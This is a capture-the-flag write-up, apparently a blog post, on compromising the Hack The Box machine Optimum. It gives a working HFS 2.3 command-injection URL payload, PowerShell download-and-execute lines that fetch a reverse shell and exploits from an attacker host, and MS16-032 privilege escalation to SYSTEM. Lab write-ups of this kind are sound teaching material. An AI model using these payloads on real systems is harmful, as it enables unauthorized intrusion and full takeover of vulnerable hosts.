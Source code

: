 ```yaml
---
title:     "Hack The Box - Optimum"
tags: [windows,easy,sherlock,empire,rce,nishang]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/1.png)

We are going to pwn Optimum from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/6>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Only one port is opened which is ``HTTP``

## HTTP:

From the nmap result itself we know that the webpage is ``HttpFileServer httpd 2.3``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/2.png)

When I click the version, It redirects to it official homepage.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/3.png)

Since we know the version I started searching for exploits available for the version and found this 

>https://www.exploit-db.com/exploits/34668

From the above exploit we can do ``RCE`` on the url.
We can execute it by using ``/?search=%00{.exec|cmd.}`` on the url

Now we need to get a reverse shell from this.

I used [Nishang](https://github.com/samratashok/nishang)

>Nishang is a framework of scripts and payloads that enables using PowerShell for offensive security. By using this we can get the shell.

There is a lot of Shell I choosed ``nishang/Shells/Invoke-PowerShellTcp.ps1`` and copied that to my directory.

If we look at the Shell it gives us some of the examples.
```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```

I copied one of the example and changed it to my IP and paste it in bottom of the file.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/4.png)<br/>
This not only load the module but also the shell give me a callback.

We need to start ``python`` server inorder to download it to the box. Started my ``netcat`` listener too.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/5.png)<br/>

Now its time to upload the module to the box

I used Powershell to do that 

```powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-PowerShellTcp.ps1')```

I added the location of the ``powershell.exe`` in windows along with the command and we already know for ``RCE``.

```/?search=%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-PowerShellTcp.ps1').}```

With URL encoded I passed it to burp.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/6.png)

``Status 200`` means it successfully downloaded to the box.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/7.png)

At the sametime I got the shell in ``nc listener``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/8.png)

## Privilege Escalation:

Once I got a shell the first thing I check is ``systeminfo``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/20.png)<br/>
I found some ``Hotfix's``

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

So we can use [Sherlock](https://github.com/rasta-mouse/Sherlock) to find the missing patches which will help us to Privilege Escalation.

>Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.



``Sherlock.ps1``

So we need to ``Find AllVulns`` Copy that and paste it in the bottom of the file as we did before.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/9.png)<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/10.png)

Our python server is already ON so we can download it in the box. No need to represent ``powershell(PS)`` because we already in a powershell.

> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Sherlock.ps1')

Once its executed it displays the output.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/11.png)

Only these are appears to be vulnerable.
```
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
```

So I started from the first one which is ``MS16-032``. The [Powershell Empire](https://github.com/EmpireProject/Empire) have an exploit for this.

Its located in ``/data/module_source/privesc/Invoke-MS16032.ps1`` 

If we look at the script it gives the example of how it need to run.
```
 .EXAMPLE

        C:\PS> Invoke-MS16-032 -Command "iex(New-Object Net.WebClient).DownloadString('http://google.com')"
```

``Invoke-MS16032.ps1``
Copy the example and paste it in the bottom of the file with changes. I copied the same``Invoke-PowerShellTcp.ps1`` which we use to get initial shell as ``root.ps1`` to give us another reverse shell.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/12.png)

Note: ``Invoke-MS16032`` must be as same as in the top of the script.

``root.ps1``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/13.png)

On the box:

>IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-MS16032.ps1')

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/14.png)

We are System!!

# Method II (Using Metasploit):

> https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec

> use exploit/windows/http/rejetto_hfs_exec

Set LHOST and LPORT<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/15.png)

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/16.png)

For privilege escalation, background the session and start ``local_exploit_suggester``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/17.png)

We already know its vulnerable to ``ms16_032``, So I used that exploit
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/18.png)<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-optimum/19.png)

We got authority\system !! 